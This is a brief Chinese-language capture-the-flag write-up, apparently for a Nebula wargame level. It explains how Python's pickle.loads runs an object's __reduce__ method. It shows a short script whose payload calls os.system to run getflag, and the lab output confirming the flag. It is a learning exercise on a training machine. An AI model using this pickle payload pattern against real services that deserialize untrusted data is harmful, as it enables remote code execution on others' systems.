 详情参加官方文档 [https://docs.python.org/2/library/pickle.html]

问题出来pickle模块的loads方法，在如果dumps了一个object类型数据，则在loads时会执行其中的__reduce__方法

```
# level16.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import os
import pickle

class ttt(object):
	def __reduce__(self):
		return (os.system,("getflag>/tmp/flag16",))
		
		
a = pickle.dumps(ttt())
print a
#b = pickle.loads(a)
```

可以自己在本地测试一下。。我的修炼还是不够啊。。
```
level16@nebula:/tmp$ python level16.py > nc 127.0.0.1 10007
Accepted connection from 127.0.0.1:59058^C
level16@nebula:/tmp$ cat flag16
You have successfully executed getflag on a target account
```

底层系统的水太深了。。。
